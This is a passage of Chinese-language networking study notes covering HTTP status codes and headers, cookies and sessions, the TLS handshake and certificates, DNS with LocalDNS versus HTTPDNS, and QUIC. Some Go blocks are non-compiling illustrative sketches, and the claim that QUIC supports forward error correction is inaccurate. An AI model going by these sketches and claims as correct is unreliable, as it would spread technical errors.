        methods.DELETE.Description, methods.DELETE.Idempotent, methods.DELETE.UseCase)
    fmt.Printf("PATCH: %s (幂等: %v) - %s\n", 
        methods.PATCH.Description, methods.PATCH.Idempotent, methods.PATCH.UseCase)
    fmt.Printf("HEAD: %s - %s\n", methods.HEAD.Description, methods.HEAD.UseCase)
    fmt.Printf("OPTIONS: %s - %s\n", methods.OPTIONS.Description, methods.OPTIONS.UseCase)
}
```


#### 3. HTTP 状态码详解

##### 状态码分类及常见代码

| 分类           | 范围    | 含义                       | 常见状态码                                                   |
| :------------- | :------ | :------------------------- | :----------------------------------------------------------- |
| **信息响应**   | 100-199 | **临时**响应，需要后续操作 | 100 Continue, 101 Switching Protocols                        |
| **成功响应**   | 200-299 | 请求成功处理               | 200 OK, 201 Created, 204 No Content                          |
| **重定向**     | 300-399 | 需要进一步操作以完成请求   | 301 Moved Permanently, 302 Found, 304 Not Modified           |
| **客户端错误** | 400-499 | 客户端请求有错误           | 400 Bad Request, 401 Unauthorized, 403 Forbidden, 404 Not Found |
| **服务器错误** | 500-599 | 服务器处理请求出错         | 500 Internal Server Error, 502 Bad Gateway, 503 Service Unavailable |

##### 常用状态码详细说明：

**2xx 成功**

- **200 OK**：请求成功，返回所需数据
- **201 Created**：资源创建成功（如POST创建新用户）
- **204 No Content**：成功处理但无内容返回（如DELETE操作）

**3xx 重定向**

- **301 Moved Permanently**：永久重定向（域名变更）
- **302 Found**：临时重定向（登录跳转）
- **304 Not Modified**：资源未修改（缓存有效）

**4xx 客户端错误**

- **400 Bad Request**：请求语法错误（参数缺失或格式错误）
- **401 Unauthorized**：需要身份验证（未登录）
- **403 Forbidden**：权限不足（已登录但无权限）
- **404 Not Found**：资源不存在（URL错误）

**5xx 服务器错误**

- **500 Internal Server Error**：服务器内部错误（代码异常）
- **502 Bad Gateway**：网关错误（上游服务不可用）
- **503 Service Unavailable**：服务暂时不可用（维护或过载）


#### 4. HTTP 头部字段

##### 常见请求头

| 头部字段            | 说明                 | 示例                                |
| :------------------ | :------------------- | :---------------------------------- |
| **Accept**          | 可接受的响应内容类型 | `Accept: application/json`          |
| **Accept-Encoding** | 可接受的内容编码     | `Accept-Encoding: gzip, deflate`    |
| **Accept-Language** | 可接受的语言         | `Accept-Language: zh-CN`            |
| **Authorization**   | 身份验证信息         | `Authorization: Bearer token123`    |
| **Cookie**          | 客户端Cookie         | `Cookie: session_id=abc123`         |
| **Content-Type**    | 请求体的类型         | `Content-Type: application/json`    |
| **User-Agent**      | 客户端信息           | `User-Agent: Mozilla/5.0`           |
| **Host**            | 服务器域名           | `Host: api.example.com`             |
| **Referer**         | 来源页面             | `Referer: https://example.com/page` |

##### 常见响应头

| 头部字段                        | 说明         | 示例                             |
| :------------------------------ | :----------- | :------------------------------- |
| **Content-Type**                | 响应体的类型 | `Content-Type: application/json` |
| **Content-Length**              | 响应体长度   | `Content-Length: 1024`           |
| **Set-Cookie**                  | 设置Cookie   | `Set-Cookie: session_id=abc123`  |
| **Cache-Control**               | 缓存控制     | `Cache-Control: max-age=3600`    |
| **Location**                    | 重定向地址   | `Location: /new-page`            |
| **Server**                      | 服务器信息   | `Server: nginx/1.18.0`           |
| **Access-Control-Allow-Origin** | CORS跨域控制 | `Access-Control-Allow-Origin: *` |


#### 5. Keep-Alive 机制

**工作原理**

Keep-Alive（持久连接）允许在**单个TCP连接**上发送和接收多个HTTP请求/响应，而不是为每个请求建立新连接。

**优势对比**

| 连接方式       | 握手次数                | 性能影响            | 资源消耗           |
| :------------- | :---------------------- | :------------------ | :----------------- |
| **短连接**     | 每个请求3次握手+4次挥手 | 高延迟，高CPU开销   | 高（频繁创建连接） |
| **Keep-Alive** | 1次握手+N个请求+1次挥手 | 低延迟，减少CPU使用 | 低（连接复用）     |

**配置参数：**

- **Timeout**：连接保持时间（如30秒）
- **Max**：最大请求数（如100个请求）
- **头部示例**：`Connection: keep-alive`, `Keep-Alive: timeout=30, max=100`

**性能影响：**

- **减少延迟**：避免重复TCP握手（节省2 RTT/请求）
- **降低开销**：减少系统调用和资源分配
- **提高吞吐量**：同一连接并行处理多个请求


#### 6. Cookie vs Session

##### 核心区别对比

| 特性         | Cookie                   | Session                  |
| :----------- | :----------------------- | :----------------------- |
| **存储位置** | 客户端浏览器             | 服务器内存/数据库        |
| **安全性**   | 较低（可查看修改）       | 较高（仅存Session ID）   |
| **存储容量** | 小（4KB左右，20个/域名） | 大（服务器内存限制）     |
| **生命周期** | 可设置过期时间           | 通常会话结束失效         |
| **性能影响** | 每次请求自动携带         | 服务器需要查找存储       |
| **跨域支持** | 有限制（同源策略）       | 无跨域问题               |
| **依赖关系** | 不依赖Session            | 依赖Cookie存储Session ID |

##### 工作流程

**Cookie流程：**

1. 服务器通过`Set-Cookie`头部设置Cookie
2. 浏览器自动存储Cookie
3. 后续请求自动通过`Cookie`头部发送
4. 服务器读取Cookie获取数据

**Session流程：**

1. 服务器创建Session并生成唯一Session ID
2. **通过Cookie将Session ID发送给客户端**
3. 客户端后续请求携带Session ID
4. 服务器根据Session ID查找Session数据

**安全考虑：**

- **Cookie安全**：使用HttpOnly、Secure、SameSite属性增强安全
- **Session安全**：使用HTTPS、定期更换Session ID、设置合理过期时间


#### 关键总结

**HTTP版本演进要点：**

- **HTTP/1.1**: 持久连接、管道化、主机头
- **HTTP/2**: 二进制分帧、多路复用、头部压缩、服务器推送
- **HTTP/3**: 基于QUIC、0-RTT、消除队头阻塞、连接迁移

**核心概念差异：**

- **GET vs POST**: 安全性、幂等性、缓存性、数据位置
- **Cookie vs Session**: 存储位置、安全性、大小限制、性能影响
- **状态码分类**: 1xx信息、2xx成功、3xx重定向、4xx客户端错误、5xx服务器错误

**性能优化关键：**

- **Keep-Alive**: 减少TCP握手开销
- **HTTP/2多路复用**: 解决队头阻塞
- **头部压缩**: 减少传输数据量
- **服务器推送**: 预加载关键资源


### **HTTPS**

> 和HTTP的区别，SSL/TLS连接创建和认证过程

HTTPS通过SSL/TLS协议在**HTTP和TCP之间增加安全层**，提供加密传输、身份认证和数据完整性保护。从TLS 1.2到TLS 1.3的演进显著提升了安全性和性能。正确的证书管理和安全配置是确保HTTPS有效性的关键。现代Web开发中，HTTPS已成为必备的安全基础措施。


#### 1. HTTPS 与 HTTP 核心区别

##### 1.1 基础定义对比

| 特性           | HTTP                        | HTTPS                              |
| :------------- | :-------------------------- | :--------------------------------- |
| **全称**       | HyperText Transfer Protocol | HyperText Transfer Protocol Secure |
| **默认端口**   | 80                          | 443                                |
| **传输方式**   | 明文传输                    | 加密传输                           |
| **安全性**     | 无加密，数据可被窃听和篡改  | 端到端加密，防止窃听和篡改         |
| **协议栈**     | HTTP → TCP → IP             | HTTP → SSL/TLS → TCP → IP          |
| **性能开销**   | 低                          | 较高（加密解密计算开销）           |
| **SEO影响**    | 无特殊优势                  | 搜索引擎排名加分                   |
| **浏览器显示** | 地址栏显示"不安全"          | 显示锁形图标和"安全"               |


##### 1.2 安全性对比详表

| 安全威胁       | HTTP 风险                            | HTTPS 防护                   |
| :------------- | :----------------------------------- | :--------------------------- |
| **窃听攻击**   | 数据明文传输，可被中间人完全获取     | 加密传输，即使截获也无法解密 |
| **数据篡改**   | 可修改传输内容（注入广告、恶意代码） | 完整性校验，篡改会被检测     |
| **身份冒充**   | 无法验证服务器真实身份               | 证书验证，确保连接正确服务器 |
| **中间人攻击** | 极易实施                             | 证书链验证防止中间人攻击     |
| **密码泄露**   | 密码明文传输                         | 加密传输，即使获取也是密文   |


##### 1.3 实际应用场景对比

| 场景         | HTTP 适用性            | HTTPS 必要性             |
| :----------- | :--------------------- | :----------------------- |
| **静态网站** | 适用（纯信息展示）     | 推荐（防止内容篡改）     |
| **登录系统** | 绝对禁止               | 必须使用                 |
| **电子商务** | 绝对禁止               | 必须使用（支付信息保护） |
| **API接口**  | 不推荐                 | 必须使用（数据安全）     |
| **内部系统** | 可考虑（信任网络环境） | 推荐（纵深防御）         |

#### 2. SSL/TLS 协议详解

##### 2.1 SSL/TLS 版本演进

| 版本    | 发布年份 | 状态     | 关键特性        | 安全性     |
| :------ | :------- | :------- | :-------------- | :--------- |
| SSL 1.0 | 未发布   | 从未公开 | -               | 不安全     |
| SSL 2.0 | 1995     | 已废弃   | 首次公开版本    | 严重漏洞   |
| SSL 3.0 | 1996     | 已废弃   | 改进安全性      | POODLE漏洞 |
| TLS 1.0 | 1999     | 逐步淘汰 | SSL标准化       | 已知漏洞   |
| TLS 1.1 | 2006     | 逐步淘汰 | 对抗CBC攻击     | 相对安全   |
| TLS 1.2 | 2008     | 广泛使用 | 现代加密算法    | 安全       |
| TLS 1.3 | 2018     | 最新标准 | 简化握手，0-RTT | 最安全     |

**简单来说：TLS是SSL的升级版和标准化版本。**




##### 2.2 TLS 1.2 握手过程详解


###### 阶段一：ClientHello

**客户端 → 服务器**

```
ClientHello {
    ProtocolVersion: TLS 1.2
    Random: 客户端随机数（32字节）
    SessionID: （可选，用于会话恢复）
    CipherSuites: 支持的加密套件列表
    CompressionMethods: 压缩方法
    Extensions: 扩展字段（SNI等）
}
```

**关键作用**：

- 声明支持的TLS版本和加密套件
- 提供随机数用于密钥生成
- 通过SNI指定要访问的域名

###### 阶段二：ServerHello + Certificate + ServerKeyExchange + ServerHelloDone

**服务器 → 客户端**

**ServerHello**：

```
ServerHello {
    ProtocolVersion: 选择的TLS版本
    Random: 服务器随机数（32字节）
    SessionID: 会话ID（用于恢复）
    CipherSuite: 选择的加密套件
    CompressionMethod: 选择的压缩方法
}
```

**Certificate**：

- 发送服务器证书链
- 包含公钥和CA签名
- 客户端用于验证服务器身份

**ServerKeyExchange**（可选）：

- 迪菲-赫尔曼参数交换
- 用于密钥协商

**ServerHelloDone**：

- 表示服务器Hello消息结束

###### 阶段三：客户端验证和密钥交换

**客户端 → 服务器**

**CertificateVerify**（如需客户端认证）：

- 客户端数字签名，证明拥有私钥

**ClientKeyExchange**：

```
ClientKeyExchange {
    PreMasterSecret: 用服务器公钥加密的预主密钥
}
```

**ChangeCipherSpec**：

- 通知服务器后续消息将使用协商的密钥加密

**Finished**：

- 包含加密的验证数据
- 证明握手过程未被篡改

###### 阶段四：服务器确认

**服务器 → 客户端**

**ChangeCipherSpec**：

- 通知客户端后续消息加密

**Finished**：

- 加密的验证消息
- 确认密钥协商成功

##### 2.3 TLS 1.3 握手优化

**主要改进：**

1. **握手轮次减少**：从2-RTT减少到1-RTT（0-RTT用于恢复）
2. **加密套件简化**：移除不安全的算法（RC4、DES、SHA1等）
3. **向前保密**：所有连接都具备向前保密性
4. **0-RTT 恢复**：之前访问过的网站可实现0-RTT连接

**TLS 1.3 简化握手：**

```
客户端 → 服务器: ClientHello (包含密钥共享)
服务器 → 客户端: ServerHello, Certificate, Finished
[此时已可发送应用数据]
```


#### 3. 证书体系与身份验证

##### 3.1 数字证书结构

| 组成部分     | 说明             | 示例/作用                |
| :----------- | :--------------- | :----------------------- |
| **版本号**   | 证书格式版本     | X.509 v3                 |
| **序列号**   | CA颁发的唯一标识 | 01:23:45:67:89:AB:CD:EF  |
| **签名算法** | 用于签名的算法   | SHA256-RSA               |
| **颁发者**   | 证书颁发机构     | CN=Let's Encrypt, O=ISRG |
| **有效期**   | 证书有效时间     | 2024-01-01 到 2024-12-31 |
| **主体**     | 证书持有者信息   | CN=www.example.com       |
| **公钥信息** | 服务器的公钥     | RSA 2048位公钥           |
| **扩展字段** | 额外信息         | 主题备用名称、密钥用法   |
| **签名**     | CA的数字签名     | 用于验证证书真实性       |





##### 3.2 证书验证过程

**步骤1：证书链验证**

```
终端实体证书（www.example.com）
    ↓ 由中间CA签名
中间证书（Let's Encrypt R3）
    ↓ 由根CA签名  
根证书（ISRG Root X1）
```

验证流程：

1. 用中间证书公钥验证终端证书签名
2. 用根证书公钥验证中间证书签名
3. 检查根证书是否在信任库中

**步骤2：有效期验证**

- 检查证书是否在有效期内
- 检查证书撤销状态（CRL/OCSP）

**步骤3：域名验证**

- 检查证书中的CN或SAN是否匹配访问的域名
- 支持通配符证书（*.example.com）

##### 3.3 证书类型对比

| 证书类型           | 验证级别 | 颁发时间 | 适用场景       | 浏览器显示   |
| :----------------- | :------- | :------- | :------------- | :----------- |
| **DV（域名验证）** | 低       | 几分钟   | 个人网站、博客 | 锁形图标     |
| **OV（组织验证）** | 中       | 1-3天    | 企业网站       | 显示组织名称 |
| **EV（扩展验证）** | 高       | 1-7天    | 银行、电商     | 绿色地址栏   |
| **通配符证书**     | 同DV/OV  | 同左     | 多子域名       | 锁形图标     |
| **多域名证书**     | 同DV/OV  | 同左     | 多个域名       | 锁形图标     |

#### 4. 加密套件与密钥交换

##### 4.1 现代加密套件组成

**示例套件**：`TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256`

| 组成部分     | 算法类型 | 具体算法            | 作用                   |
| :----------- | :------- | :------------------ | :--------------------- |
| **密钥交换** | ECDHE    | 椭圆曲线迪菲-赫尔曼 | 密钥协商，提供向前保密 |
| **认证算法** | RSA      | RSA签名             | 服务器身份验证         |
| **对称加密** | AES      | AES-128-GCM         | 数据传输加密           |
| **摘要算法** | SHA256   | SHA-256             | 完整性校验             |

##### 4.2 密钥交换过程

**迪菲-赫尔曼密钥交换：**

1. **客户端**：生成临时密钥对，发送公钥
2. **服务器**：生成临时密钥对，发送公钥+证书
3. **双方**：用自己的私钥和对方的公钥计算共享密钥
4. **结果**：得到相同的预主密钥，但第三方无法计算

**向前保密（PFS）：**

- 每次会话使用新的临时密钥
- 即使服务器私钥泄露，历史会话仍安全
- TLS 1.3 强制要求向前保密

#### 5. 性能优化与最佳实践

##### 5.1 HTTPS 性能优化策略

| 优化技术          | 实现方式           | 效果             |
| :---------------- | :----------------- | :--------------- |
| **会话恢复**      | Session ID/Tickets | 减少完整握手开销 |
| **OCSP Stapling** | 服务器缓存OCSP响应 | 减少证书状态查询 |
| **HTTP/2**        | 多路复用+头部压缩  | 抵消HTTPS开销    |
| **TLS 1.3**       | 简化握手，1-RTT    | 显著降低延迟     |
| **CDN加速**       | 边缘节点TLS终止    | 减少网络延迟     |
| **硬件加速**      | AES-NI等指令集     | 提高加密性能     |

##### 5.2 安全配置最佳实践

```
# Nginx TLS 配置示例
ssl_protocols TLSv1.2 TLSv1.3;
ssl_ciphers ECDHE-RSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384;
ssl_prefer_server_ciphers on;
ssl_session_cache shared:SSL:10m;
ssl_session_timeout 10m;
ssl_stapling on;
ssl_stapling_verify on;
```


### **DNS**

> 从URL输入到页面展现流程，LocalDNS问题和HTTPDNS优化

#### 1. 完整流程：从 URL 输入到页面展现

##### 1.1 整体流程图

```
用户输入URL → 浏览器处理 → DNS解析 → TCP连接 → HTTP请求 → 服务器处理 → 浏览器渲染 → 页面展现
```

##### 1.2 详细步骤分解

**步骤1：URL 输入和处理**

**用户行为**：在地址栏输入 `https://www.example.com/page`

**浏览器处理**：

- 检查 URL 格式和协议
- 解析主机名和路径
- 检查 HSTS 列表（强制 HTTPS）
- 验证安全性（证书、混合内容等）

**步骤2：DNS 解析过程（重点）**

**DNS 解析层级**：

```
浏览器缓存 → 系统缓存 → 路由器缓存 → ISP LocalDNS → 根域名服务器 → 顶级域名服务器 → 权威域名服务器
```

**详细解析流程**：

| 步骤 | 查询位置             | 作用                   | 缓存时间     |
| :--- | :------------------- | :--------------------- | :----------- |
| 1    | 浏览器缓存           | 检查最近访问记录       | 1-60分钟     |
| 2    | 操作系统缓存         | 系统级DNS缓存          | 根据TTL      |
| 3    | 路由器缓存           | 本地网络缓存           | 较短         |
| 4    | ISP LocalDNS         | 递归查询起点           | **问题根源** |
| 5    | 根域名服务器         | 返回顶级域名服务器地址 | 不缓存       |
| 6    | 顶级域名服务器(.com) | 返回权威域名服务器地址 | 缓存         |
| 7    | 权威域名服务器       | 返回最终IP地址         | 遵循TTL      |

**步骤3：建立 TCP 连接**

**TCP 三次握手**：

```
客户端 → SYN → 服务器
客户端 ← SYN-ACK ← 服务器  
客户端 → ACK → 服务器
```

**TLS 握手**（HTTPS）：

- ClientHello → ServerHello → 证书验证 → 密钥交换

**步骤4：HTTP 请求/响应**

**请求示例**：

```
GET /page HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0
Accept: text/html
```

**步骤5：浏览器渲染**

- HTML解析 → CSS解析 → JavaScript执行 → 渲染树 → 布局 → 绘制


#### 2. LocalDNS 问题深度分析

##### 2.1 LocalDNS 的三大核心问题

**问题1：解析准确性差**

**根本原因**：LocalDNS 缓存污染和错误调度

| 问题类型      | 表现                 | 影响                 |
| :------------ | :------------------- | :------------------- |
| **DNS劫持**   | 返回广告IP或错误页面 | 用户体验差，安全风险 |
| **缓存污染**  | 旧记录未及时更新     | 服务迁移困难         |
| **TTL不遵守** | 长期缓存过期记录     | 故障切换延迟         |

**数据示例**：

```
用户位置：北京
真实最优IP：119.28.1.1（北京机房）
LocalDNS返回：203.34.2.2（上海机房）
结果：延迟增加 50ms+
```

**问题2：调度不精准**

**传统 DNS 调度缺陷**：

```
# 简单的DNS调度算法（问题所在）
def dns_load_balance(user_ip):
    # 基于过时的IP地址库
    if user_ip in ['202.96.0.0/16']:  # 过时的北京IP段
        return '119.28.1.1'  # 北京机房
    else:
        return 'default.server.com'  # 可能不是最优选择
```

**现实问题**：

- IP地址库陈旧，地理位置判断错误率高达30%
- 无法感知网络实时拥塞状况
- 忽略运营商网络拓扑差异

**问题3：移动网络适配差**

**4G/5G网络特有问题**：

```
基站切换频繁：用户位置变化快
LocalDNS响应：调度信息更新延迟
结果：始终指向首次查询的机房
影响：移动用户体验差
```

##### 2.2 具体问题场景分析

**场景1：CDN 加速失效**

```
期望调度：用户 → 最近CDN节点（延迟<20ms）
实际调度：用户 → 较远节点（延迟>80ms）
业务影响：视频卡顿、页面加载慢
```

**场景2：跨国访问问题**

```
中国用户访问：example.com
期望：香港/新加坡节点
实际：美国节点（延迟300ms+）
原因：LocalDNS基于IP段粗略调度
```

**场景3：故障切换慢**

```
服务器故障：需要切换IP
LocalDNS：TTL过期才更新
业务影响：分钟级服务中断
```


#### 3. HTTPDNS 优化方案

##### 3.1 HTTPDNS 工作原理

**架构对比**

**传统 DNS 问题架构**：

```
客户端 → UDP 53端口 → LocalDNS（可能被劫持）→ 递归查询
```

**HTTPDNS 优化架构**：

```
客户端 → HTTPS 443端口 → HTTPDNS API（防劫持）→ 直接获取最优IP
```

**HTTPDNS 请求响应示例**

```bash
# 请求
GET https://dns.qq.com/d?dn=www.example.com&ip=114.114.114.114&token=签名
Accept: application/json

# 响应
HTTP/1.1 200 OK
Content-Type: application/json

{
    "domain": "www.example.com",
    "ips": ["119.28.1.1", "119.28.1.2"],
    "ttl": 60,  // 可动态调整
    "client_ip": "114.114.114.114",
    "signature": "防止篡改的签名"
}
```

##### 3.2 HTTPDNS 核心优势对比

| 特性         | LocalDNS | HTTPDNS    | 优势说明     |
| :----------- | :------- | :--------- | :----------- |
| **调度精度** | 城市级   | 街区级     | 10倍精度提升 |
| **防劫持**   | 无保护   | HTTPS+签名 | 安全可靠     |
| **生效速度** | 依赖TTL  | 秒级生效   | 故障快速恢复 |
| **移动适配** | 差       | 优秀       | 基站切换无感 |
| **成本**     | 免费     | 按量收费   | 企业级服务   |

##### 3.3 HTTPDNS 智能调度算法

```
class HttpDnsScheduler:
    def get_optimal_ip(self, domain, client_info):
        # 多维度决策因子
        decision_factors = {
            'real_time_network': self.get_network_quality(),
            'server_health': self.get_server_health_score(),
            'geolocation': client_info['precision_geo'],
            'carrier': client_info['carrier'],
            'asn': client_info['autonomous_system'],
            'historical_performance': self.get_history_stats()
        }
        
        # 机器学习智能调度
        optimal_ip = self.ml_predict(decision_factors)
        return optimal_ip
    
    def ml_predict(self, factors):
        # 基于实时数据的机器学习预测
        # 考虑网络质量、服务器负载、地理位置等
        return "最优IP地址"
```

#### 4. 实际应用案例

##### 4.1 大型互联网公司实践

**腾讯云 HTTPDNS 部署**

```
服务架构:
  接入点: 
    - 主: http://119.29.29.29/d
    - 备: http://182.254.116.116/d
    - 全球: 多个海外节点
  
智能调度:
  - 精度: 地市级调度
  - 实时性: 秒级生效
  - 容灾: 多活架构
```

**实测性能数据对比**

| 业务场景 | LocalDNS   | HTTPDNS     | 提升效果 |
| :------- | :--------- | :---------- | :------- |
| 视频点播 | 卡顿率 5%  | 卡顿率 1.2% | 降低76%  |
| 页面加载 | 平均 2.1s  | 平均 1.3s   | 提升38%  |
| 移动网络 | 失败率 8%  | 失败率 1.5% | 降低81%  |
| 跨国访问 | 延迟 280ms | 延迟 120ms  | 降低57%  |


##### 4.2 HTTPDNS 的价值矩阵

| 维度         | 传统LocalDNS | HTTPDNS         | 改善程度 |
| :----------- | :----------- | :-------------- | :------- |
| **精准调度** | 城市级精度   | 街区级精度      | 10倍提升 |
| **可靠性**   | 易被劫持     | HTTPS加密防劫持 | 安全可靠 |
| **实时性**   | 分钟级生效   | 秒级生效        | 60倍提升 |
| **移动体验** | 适配差       | 优秀适配        | 显著改善 |
| **成本**     | 免费但有问题 | 按量付费但稳定  | 性价比高 |

**适合业务**：

- ✅ 移动端App（特别是视频、游戏）
- ✅ 跨境电商、跨国业务
- ✅ 对网络质量要求高的业务
- ✅ 需要高可用性的核心业务


### **QUIC**：下一代传输协议

> 和HTTP的区别，基于UDP的优势和应用场景，低延迟和高吞吐的优化原理
>
> Quick UDP Internet Connections

QUIC 的核心优势：

1. **极低延迟**：0-RTT连接恢复，快速握手
2. **高吞吐量**：改进的拥塞控制，智能重传
3. **可靠性**：前向纠错，多路复用，流独立
4. **移动友好**：连接迁移，网络切换无感知

适用场景：

- **实时应用**：视频会议，在线游戏，直播
- **移动应用**：频繁网络切换，弱网环境
- **内容分发**：CDN优化，大规模传输
- **新兴领域**：IoT，边缘计算，AR/VR


#### 1. QUIC 与 HTTP 的核心区别

##### 1.1 协议栈对比

```go
// 传统 HTTP/2 + TLS + TCP 协议栈
type HTTP2Stack struct {
    ApplicationLayer HTTP2      // HTTP/2 应用层
    SecurityLayer    TLS1_2     // TLS 安全层  
    TransportLayer   TCP        // TCP 传输层
    NetworkLayer     IP         // IP 网络层
}

// QUIC 协议栈（多路复用）
type QUICStack struct {
    ApplicationLayer HTTP3      // HTTP/3 应用层
    TransportSecurity QUIC      // QUIC = TLS + 传输层
    NetworkLayer      UDP       // UDP 网络层
}
```

##### 1.2 关键区别表格

| 特性         | HTTP/2 + TLS + TCP           | QUIC                |
| :----------- | :--------------------------- | :------------------ |
| **连接建立** | 3次握手 + TLS握手（2-3 RTT） | 1 RTT（0 RTT 恢复） |
| **队头阻塞** | 存在（TCP层）                | 消除（每个流独立）  |
| **加密**     | TLS在TCP之上                 | 内置TLS 1.3         |
| **多路复用** | 应用层多路复用               | 传输层多路复用      |
| **连接迁移** | 不支持（IP变化需重建）       | 支持（基于连接ID）  |
| **前向纠错** | 不支持                       | 支持（减少重传）    |


#### 2. 基于 UDP 的优势

##### 2.1 绕过中间设备限制

```go
// 传统TCP面临的中间设备问题
type TCPMiddleboxProblems struct {
    BufferBloat      bool // 缓冲区膨胀
    PacketLoss       bool // 丢包率增加
    NATTraversal     bool // NAT穿越困难
    FirewallBlocking bool // 防火墙拦截
}

// QUIC基于UDP的优势
type QUICAdvantages struct {
    BypassMiddleboxes    bool // 绕过中间设备限制
    UserpaceImplementation bool // 用户空间实现
    FasterDeployment     bool // 快速部署（无需内核更新）
    BetterNATSupport     bool // 更好的NAT支持
}
```

##### 2.2 用户空间实现优势

```go
package quic

// QUIC在用户空间实现的优势
type UserpaceBenefits struct {
    // 1. 快速迭代更新
    RapidProtocolEvolution bool
    
    // 2. 定制化拥塞控制
    CustomCongestionControl []string // BBR, Cubic, Reno等
    
    // 3. 更好的调试能力
    DetailedMetrics struct {
        PacketLossRate    float64
        RTTVariation      float64  
        ConnectionQuality int
    }
    
    // 4. 跨平台一致性
    CrossPlatformBehavior bool
}
```

#### 3. 低延迟优化原理

##### 3.1 0-RTT 连接恢复

```go
// 0-RTT连接恢复实现
type ZeroRTTHandshake struct {
    InitialConnection struct {
        ClientHello  []byte
        ServerConfig []byte // 包含重放令牌
        RTT          time.Duration // 1-RTT
    }
    
    SubsequentConnection struct {
        ClientHelloWithToken []byte // 包含之前获得的令牌
        ServerAccept         []byte // 立即开始数据传输
        RTT                  time.Duration // 0-RTT
    }
}

// 安全考虑：重放攻击防护
func preventReplayAttack(token []byte, timestamp time.Time) bool {
    // 令牌有效期检查
    if time.Since(timestamp) > 1*time.Minute {
        return false
    }
    
    // 一次性令牌机制
    if isTokenUsed(token) {
        return false
    }
    
    return true
}
```

##### 3.2 多路复用与流独立性

```go
// QUIC流的多路复用
type QUICMultiplexing struct {
    Streams []QUICStream
    
    // 每个流独立处理
    type QUICStream struct {
        ID         uint64
        Data       []byte
        LostPackets []uint64 // 该流的丢包不影响其他流
        Retransmit  bool     // 独立重传机制
    }
}

// 对比TCP的队头阻塞问题
type TCPHeadOfLineBlocking struct {
    Packets []TCPPacket
    
    type TCPPacket struct {
        SequenceNumber uint32
        Data          []byte
        Lost          bool // 一个包丢失会阻塞后续所有包
    }
}
```

##### 3.3 前向纠错（FEC）

```go
// 前向纠错机制
type ForwardErrorCorrection struct {
    OriginalPackets []Packet
    FECPackets      []FECPacket
    
    type FECPacket struct {
        XORResult    []byte // 异或校验数据
        PacketRange  []uint64 // 覆盖的包范围
    }
}

// FEC数据恢复
func recoverLostPackets(receivedPackets []Packet, fecPackets []FECPacket) []Packet {
    for _, fec := range fecPackets {
        missingCount := 0
        var missingPacket *Packet
        
        // 检查哪些包丢失
        for _, seq := range fec.PacketRange {
            if !isPacketReceived(seq, receivedPackets) {
                missingCount++
                missingPacket = createEmptyPacket(seq)
            }
        }
        
        // 如果只丢失一个包，可以通过FEC恢复
        if missingCount == 1 {
            recoveredData := applyXORRecovery(receivedPackets, fec.XORResult)
            missingPacket.Data = recoveredData
            receivedPackets = append(receivedPackets, *missingPacket)
        }
    }
    
    return receivedPackets
}
```

#### 4. 高吞吐量优化

##### 4.1 改进的拥塞控制

```go
// BBR拥塞控制算法
type BBRCongestionControl struct {
    BandwidthEstimate float64 // 带宽估计（bps）
    RTTMin            time.Duration // 最小RTT
    PacingRate       float64 //  pacing速率
    CongestionWindow uint32  // 拥塞窗口
}

func (b *BBRCongestionControl) onAckReceived(packetSize uint32, rtt time.Duration) {
    // 更新带宽估计
    bwSample := float64(packetSize*8) / rtt.Seconds()
